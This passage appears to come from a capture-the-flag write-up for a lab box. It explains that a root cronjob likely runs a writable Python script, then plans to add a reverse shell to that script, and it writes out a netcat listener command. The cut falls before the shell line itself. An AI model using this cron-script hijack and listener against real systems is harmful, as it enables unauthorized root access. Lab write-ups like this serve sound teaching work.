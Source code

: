 
`rm -r /tmp/*` seems like the kind of command that would be run repeatedly, on a regular asis.. <br>
If it was just going to be run once, the root user would just run the command.<br>
It's likely that this script is run automatically, and likely periodically.<br>
Does `root` run it with a cronjob?

<br>

### Rambling, Skippable Side Note
It wasn't until I had already been attempting this box for some time did I learn about the existence of cronjobs.<br>
I had to come across the concept in my other attempts to familiarize myself with Linux. <br>
This underscores a need to understand the fundamentals of the OS.<br>
If you don't understand the OS, it is a lot more difficult to exploit it.


The idea for cronjobs being important here is hinted at by the name.<br>
Solid-State implies no moving parts.<br>
Thematically, this concept is the opposite of this box, which runs a script without any user input.<br>


My academic background included classes on circuit design, and the term *Solid State* got conflated with the concept of *steady-state*.<br>
This confusion ended up helping me put the pieces together.<br>
When introduced to time-dependent circuitry, such as LC circuits, problems often include an important phrase.<br>

*Assume that at t=0, the circuit had been in steady-state for a long time.*<br>

This is meant to convey that the circuit had been unchanging until we began obvserving it.<br>
At this point, connections are made and any stored energy in capacitors or inductors begins to move around.<br>

Mixing up Solid-State and Steady-State - I ended up stumbling upon the key concept.




## 5. Waiting For the Root to Sprout

If the script is run as a cronjob, then we just need to add a line that starts a reverse shell.
Since the script would be executed as root, the created shell would have root privileges.


We want to catch this shell as soon as the command is sent, so let's set up our listener before altering the script.


On our local machine, we run:

* `nc -lnvp PORTNUM`


Next, we need to edit the script to include our revshell command.<br>
But, before we do this, let's make a copy of the original `tmp.py` - in case we bungle our editing process.<br>

* `cp /opt/tmp.py /dev/shm/copy.py`
<br>
